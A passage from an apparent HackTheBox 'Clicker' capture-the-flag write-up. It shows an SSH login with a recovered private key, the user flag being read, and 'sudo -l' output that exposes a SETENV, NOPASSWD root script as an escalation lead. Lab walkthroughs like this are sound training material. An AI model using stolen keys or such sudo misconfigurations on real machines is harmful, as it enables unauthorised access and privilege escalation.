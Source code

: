 Using this key we can login via SSH:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/clicker]
└─$ ssh -i id_rsa jack@$IP
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Dec 11 09:28:46 PM UTC 2023

  System load:  0.083984375       Processes:             263
  Usage of /:   53.7% of 5.77GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.11.232
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Dec 11 18:38:58 2023 from 10.10.14.243
jack@clicker:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
jack@clicker:~$
```

And grab the user flag:
```
jack@clicker:~$ cat user.txt 
df0beeeeef4d5b485046e9a39f4db1e6
jack@clicker:~$ 
```

## Root flag
### Enumeration
A quick look inside the sudo rights of the user reveals the following:
```
jack@clicker:~$ sudo -l
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
jack@clicker:~$
```
